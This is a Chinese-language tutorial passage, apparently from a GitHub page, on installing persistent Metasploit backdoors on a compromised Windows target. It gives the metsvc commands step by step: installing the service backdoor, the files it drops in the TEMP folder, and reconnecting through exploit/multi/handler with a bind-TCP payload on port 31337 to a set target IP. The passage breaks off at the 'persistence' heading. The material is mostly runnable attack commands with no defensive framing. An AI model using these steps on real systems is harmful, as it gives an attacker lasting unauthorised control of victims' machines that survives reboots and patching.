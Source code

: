 Meterpreter的`shell运行在内存中`，目标重启就会失效，如果管理员给系统打上补丁，那么就没办法再次使用exploit获取权限，所以需要持久的后门对目标进行控制。

Msf提供了两种后门，一种是`metsvc(通过服务启动)`，一种是`persistence(支持多种方式启动)`。

### 1.metsvc

```
(1) 使用`run metsvc -h`查看帮助，一共有三个参数。

-A：安装后门后，自动启动exploit/multi/handler模块连接后门

-h：查看帮助

-r：删除后门
```

(2) 安装后门
```
命令：run metsvc
```
![](img/4.png)
命令运行成功后会在C:WindowsTEMP目录下新建随机名称的文件夹，里面生成3个文件（metsvc.dll、metsvc-server.exe、metsvc.exe）。

3)链接后门
```
use exploit/multi/handler
```
payload设置为windows/metsvc_bind_tcp
```
set payload windows/metsvc_bind_tcp
```
然后设置目标ip和绑定端口31337
```
set rhost 192.168.100.84
```
```
set lport 31337
```
运行程序
```
run
```
## 2.persistence
